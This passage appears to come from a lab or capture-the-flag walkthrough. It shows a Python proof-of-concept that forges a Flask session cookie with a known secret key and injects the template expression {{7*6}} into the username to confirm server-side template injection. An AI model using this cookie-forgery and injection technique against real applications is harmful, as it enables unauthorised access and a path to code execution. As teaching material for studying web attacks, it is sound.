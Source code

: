 **Kali(poc-venv)**

```
subl poc2.py
```

Changing the code to see if it will evaluate 7\*6 in the username field

**poc2.py**

```
#!/usr/bin/python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

#Flask Initialisation
app = Flask(__name__)
app.config["SECRET_KEY"] = "43961b349373988c271babcbb6e55347"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "{{7*6}}"
    return "Check your cookies", 200

#Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

#Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

**Kali(poc-venv)**

```
python poc2.py
```

Do the same steps as before to use the cookie and you can see the username is now 42
